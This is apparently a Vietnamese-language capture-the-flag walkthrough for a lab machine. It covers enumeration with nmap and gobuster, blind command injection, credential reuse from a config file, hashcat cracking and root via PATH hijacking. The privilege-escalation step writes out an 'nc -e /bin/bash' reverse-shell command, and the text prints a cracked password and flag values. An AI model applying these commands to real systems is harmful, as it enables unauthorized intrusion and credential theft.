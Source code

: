 ########################### ENUMURATE ###########################

sai nmap de scan port nao dang mo tren server 

nmap -T4 -sC -sV -Pn 10.10.11.104 -oN nmap.txt

2 port dang mo la 22 (ssh) va 80(http) webserver dang su dung la apache

sai gobuter de brute thu muc 


gobuster dir -u http://10.10.11.104/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x "php"


/index.php            (Status: 302) [Size: 2801] [--> login.php]
/download.php         (Status: 302) [Size: 0] [--> login.php]   
/login.php            (Status: 200) [Size: 2224]                
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]                 
/nav.php              (Status: 200) [Size: 1248]                
/footer.php           (Status: 200) [Size: 217]                 
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2968] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
Progress: 2168 / 415288 (0.52%)                                              
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/config.php           (Status: 200) [Size: 0]              

#####################################################################


############################# EXPLOIT ###############################

su dung curl de tao acc 

curl -XPOST http://10.10.11.104/ -d "username=d47&password=d47&confirm=d47"

login vao

co file backup.zip => download => doc source => file logs.php co loi

blind command injection 

tao mot reverse shell 

nhung ko co quyen de doc file user.txt, nen can phai dang nhap vao voi quyen m4lwhere 

cho file config.php => co chua username vs password => connect vao mysql 

mysql -u root -p (password trong file config)

tim duoc password cua m4lwhere o trong database 

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

crack password cua m4lwhere sai hashcat
hashcat -m 500 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt
-m: loai hash dung de crack
-a : loai attack 0, co nghia la su dung dictionary attack
-o: output cua password da duoc crack



password: ilovecody112235!

nmap ban dau ta biet duoc la co 2 port dang mo la ssh, http , lay username, password login vao

user.txt => dc1e07036f5db6e73dcca8b99e820885

su dung path injection de leo quyen thanh root

ta thay trong file script no dang su dung lenh la gzip, date => co the chon 1 trong 2 de leo quyen root 

ta su dung date de tao reverse shell de chiem quyen root

b1: cd /tmp => echo "nc -e /bin/bash if port" > date
b2: cap quyen thuc thi cho file: chmod +x date
b3: dua path cua file date vao $PATH : export PATH:/tmp:$PATH
b4: sudo file_script => chiem duoc quyen root 


root.txt => e85ef00100f1c552535b5123979535bb

#####################################################################